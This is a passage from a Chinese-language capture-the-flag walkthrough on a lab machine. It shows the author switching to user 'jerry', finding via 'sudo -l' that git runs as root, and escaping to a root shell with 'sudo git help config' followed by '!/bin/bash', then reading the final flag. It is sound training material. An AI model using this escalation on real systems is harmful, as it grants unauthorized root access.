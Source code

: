 ![image-20211220194650691](https://raw.githubusercontent.com/todis21/image/main/img/image-20211220194650691.png)

这一波，只能说是意料之中的，要不然jerry这个用户就没啥用了，

切换到jerry这个用户

```
su jerry
```

然后

```
sudo -l
```

![image-20211220195945974](https://raw.githubusercontent.com/todis21/image/main/img/image-20211220195945974.png)

可以看到可以用root执行git

用git提权：

```
sudo git help config
进入页面后输入
!/bin/bash
```

![image-20211220200157116](https://raw.githubusercontent.com/todis21/image/main/img/image-20211220200157116.png)

提权成功

![image-20211220200330185](https://raw.githubusercontent.com/todis21/image/main/img/image-20211220200330185.png)

找flag

进入root，里面有个final-flag.txt



![image-20211220200535155](https://raw.githubusercontent.com/todis21/image/main/img/image-20211220200535155.png)

完美结束！
